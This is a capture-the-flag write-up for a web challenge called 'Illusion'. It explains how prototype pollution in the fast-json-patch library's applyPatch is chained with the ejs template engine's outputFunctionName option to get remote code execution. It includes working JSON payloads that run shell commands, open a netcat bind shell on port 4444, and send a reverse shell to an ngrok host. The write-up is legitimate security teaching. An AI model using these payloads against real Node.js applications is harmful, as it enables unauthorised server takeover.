




# Illusion

## Problem

Laura just found a website used for monitoring security mechanisms on Rhiza's state and is planning to hack into it to forge the status of these security services. After that she will deactivate these security resources without alerting government agents. Your goal is to get into the server to change the monitoring service behaviour.


Illusion


## Solution

First, let's analyse the source code.

Here, we see that for testing locally, we should use `admin:admin` as the basic authentication credentials.

```javascript
app.use(basicAuth({
    users: { "admin": process.env.SECRET || "admin" },
    challenge: true
}))
```

We come across an interesting functionality of the app. When POST-ing JSON to the `/change_status` endpoint, the [fast-json-patch](https://www.npmjs.com/package/fast-json-patch) package is used to modify the `services` object.

```javascript
const jsonpatch = require('fast-json-patch')

...

// API
app.post("/change_status", (req, res) => {

    let patch = []

    Object.entries(req.body).forEach(([service, status]) => {

        if (service === "status"){
            res.status(400).end("Cannot change all services status")
            return
        }

        patch.push({
            "op": "replace",
            "path": "/" + service,
            "value": status
        })
    });

    jsonpatch.applyPatch(services, patch)

    console.log(Object.values(services))
    if ("offline" in Object.values(services)){
        services.status = "offline"
    }

    res.json(services)
})
```

A quick search led me to this GitHub pull request: [ https://github.com/Starcounter-Jack/JSON-Patch/pull/262](https://github.com/Starcounter-Jack/JSON-Patch/pull/262). A prototype pollution vulnerability exists in `applyPatch()`.

It appears that the issue is not yet fixed, even in the latest version!

For instance, if we POST the following data:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
}
```

Every object will now have the `offline` attribute. The following if statment will then evaluate to True, since the `Array` object will have an `offline` attribute as well.

```javascript
if ("offline" in Object.values(services)){
    services.status = "offline"
}
```

But we can't really do much with this... yet. When there is a prototype injection vulnerability in server-side code, it can usually lead to serious exploits like RCE.

In this case, we can achieve RCE through exploiting the `ejs` module, by leveraging the `constructor/prototype/outputFunctionName` option in the `ejs` rendering function. This is quite a well known exploit: [https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks](https://portswigger.net/daily-swig/prototype-pollution-bug-in-popular-node-js-library-leaves-web-apps-open-to-dos-remote-shell-attacks)

For how to exploit it, here's a neat reference: [https://blog.p6.is/Real-World-JS-1/](https://blog.p6.is/Real-World-JS-1/)

We can see that `ejs` is used. It is a very popular library for templating in web applications.

```javascript
const ejs = require('ejs')

...

app.get("/", async (req, res) => {
    const html = await ejs.renderFile(__dirname + "/templates/index.ejs", {services})
    res.end(html)
})
```

Testing locally as a normal user first (the actual challenge uses a guest user), we can POST the following data to test that RCE exists:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/offline": "test",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('whoami >> src/static/style.css');x"
}
```

This executes `whoami >> src/static/style.css`. We can see that in the `style.css`, the output is indeed reflected.



Then I ran the docker image. Note that we are provided with a `readflag` binary. We can run this binary and obtain the flag from the output.

Since we're a guest user, we don't have permissions to write the output to a readable file. We can try to use a bind shell instead. The following will execute `nc -lvp 4444 -e /bin/sh`, opening up a bind shell on port 4444. 

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc -lvp 4444 -e /bin/sh');x"
}
```

When we connect to the bind shell, we can then run the `readflag` binary.



Time to connect to the real server!



The bind shell didn't work, so we had to use a reverse shell instead.

First, I set up a `ngrok` TCP forwarder. Then, in our RCE payload, we can use the public endpoint given by `ngrok` to catch our reverse shell. To trigger a reverse shell, we would need to modify our RCE:

```javascript
{
    "cameras": "offline",
    "doors": "offline",
    "turrets": "offline",
    "dome": "offline",
    "constructor/prototype/outputFunctionName": "x;console.log(1);process.mainModule.require('child_process').exec('nc 8.tcp.ngrok.io 17160 -e /bin/sh');x"
}
```

This should forward the reverse shell to our local machine, and we get the flag!


